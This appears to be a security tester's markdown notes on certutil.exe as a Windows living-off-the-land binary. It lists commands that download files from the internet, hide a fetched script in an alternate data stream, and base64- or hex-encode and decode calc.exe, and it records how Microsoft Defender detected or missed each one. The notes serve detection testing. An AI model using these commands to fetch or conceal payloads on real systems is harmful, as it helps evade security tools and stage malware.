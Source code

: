 # Lolbas CertUtil

[Lolol Farm](https://lolol.farm/) is a project that groups all living of the land techniques. [Lolbas](https://lolbas-project.github.io/#) is specifically targetting Windows binaries.

## Download file from Internet Case 1

Test:

```Shell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented.

## Download file from Internet Case 2

Test:

```Shell
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

## Download file from Internet and Save to alternate data stream

Test:

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Xiobe/Get-ShortcutsContent/refs/heads/main/Get-LNKShortcutsContent.ps1 c:\temp:ttt
```

## Encode a file

### Encode to a base64 encoded file

Test:

```
certutil -encode c:\windows\system32\calc.exe encoded_calc.exe
```

### Encode to a hexadecimal encoded file

Test:

```
certutil -encodehex c:\windows\system32\calc.exe encodedhex_calc.exe
```

## Decode a file

### Decode a base64 file

Test:

```
certutil -decode encoded_calc.exe decoded_calc.exe
```

This gets detected by Microsoft Defender as `Use of living-off-the-land binary to run malicious code`. It tags it as a `low` priority event and was **not** prevented. I was able to decode the `encoded_calc.exe` and run `decoded_calc.exe`. You are not able to fetch the `decoded_calc.exe` from the user interface, to obtain a copy you need a *live response session* on the remote system.

### Decode a hexadecimal encoded file

Test:

```
certutil -decodehex encodedhex_calc.exe decodedhex_calc.exe
```
